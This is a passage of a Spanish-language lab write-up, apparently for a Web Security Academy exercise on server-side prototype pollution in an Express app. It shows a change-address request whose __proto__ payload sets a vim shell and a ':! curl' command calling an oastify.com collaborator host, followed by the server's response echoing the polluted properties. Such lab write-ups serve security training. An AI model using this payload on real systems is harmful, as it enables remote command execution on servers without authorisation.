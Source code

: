 ```json
                              "description": "Database cleanup",
                              "success": true
                    },
                    {
                              "name": "fs-cleanup",
                              "description": "Filesystem cleanup",
                              "success": true
                    }
          ]
}
```
{% endcode %}

Esto genera tareas en segundo plano que limpian la base de datos y el sistema de archivos.

Por lo anterior, generamos un collaborator y enviamos la siguiente peticion:

```json
POST /my-account/change-address HTTP/2
Host: 0a7e008b0499e6c481688ab4000900af.web-security-academy.net
Cookie: session=4tH7NKRjQmuej0xm7k7XQpweZtk40bS7
Content-Length: 284
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a7e008b0499e6c481688ab4000900af.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a7e008b0499e6c481688ab4000900af.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"4tH7NKRjQmuej0xm7k7XQpweZtk40bS7","__proto__": {
    "shell":"vim",
    "input":":! curl https://em4or21l4n6gh8j45x85zbha51btzlna.oastify.com\n"
}}
```

La respuesta de la peticion previa es:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"11b-xEcQdnwNDfeY/SNwPrhCfg+9Ubs"
Date: Wed, 26 Jun 2024 15:51:49 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 283

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":true,"shell":"vim","input":":! curl https://em4or21l4n6gh8j45x85zbha51btzlna.oastify.com\n"}
```
{% endcode %}
